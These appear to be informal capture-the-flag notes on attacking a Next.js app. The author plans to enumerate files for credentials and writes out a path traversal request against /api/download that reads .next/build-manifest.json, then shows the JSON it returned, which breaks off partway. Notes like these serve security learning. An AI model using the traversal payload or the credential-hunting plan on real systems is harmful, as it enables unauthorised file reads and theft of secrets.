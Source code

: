 

There is a folder on the root of the filesystem called /app

inside that folder theres the app




*either i find something inside /app that gives me creds*


-> the way to go seems to be to enumerate the files more and find something worthwhile to read
-> or try to look better at the docs for next.js directory structure or if there is some sensiteive file I can read


there r 2 users

nextjs && node -> node has bash shell so I think thats user



*found this so all those build files might b around here*

GET /api/download?example=../../../../../app/.next/build-manifest.json



filename=../../../../../app/.next/build-manifest.json
ETag: "9i91vm5qeq8cq"

{
  "polyfillFiles": [
    "static/chunks/polyfills-42372ed130431b0a.js"
  ],
  "devFiles": [],
  "ampDevFiles": [],
  "lowPriorityFiles": [
    "static/qVDR2cKpRgqCslEh-llk9/_buildManifest.js",
    "static/qVDR2cKpRgqCslEh-llk9/_ssgManifest.js"
  ],
  "rootMainFiles": [],
  "rootMainFilesTree": {},
  "pages": {
    "/": [
      "static/chunks/webpack-cb370083d4f9953f.js",
      "static/chunks/framework-ee17a4c43a44d3e2.js",
      "static/chunks/main-0221d9991a31a63c.js",
      "static/chunks/pages/index-a09f42904785092c.js"
    ],
    "/_app": [
      "static/chunks/webpack-cb370083d4f9953f.js",
      "static/chunks/framework-ee17a4c43a44d3e2.js",
      "static/chunks/main-0221d9991a31a63c.js",
      "static/css/9a1ff1f4870b5a50.css",
      "static/chunks/pages/_app-95f33af851b6322a.js"
    ],
    "/_error": [
      "static/chunks/webpack-cb370083d4f9953f.js",
      "static/chunks/framework-ee17a4c43a44d3e2.js",
      "static/chunks/main-0221d9991a31a63c.js",
      "static/chunks/pages/_error-41608b100cc61246.js"
    ],
    "/docs": [
      "static/chunks/webpack-cb370083d4f9953f.js",
      "static/chunks/framework-ee17a4c43a44d3e2.js",
      "static/chunks/main-0221d9991a31a63c.js",
      "static/chunks/8-fd0c493a642e766e.js",
      "static/chunks/0-c54fcec2d27b858d.js",
      "static/chunks/pages/docs-5f6acb8b3a59fb7f.js"
    ],
    "/docs/[section]": [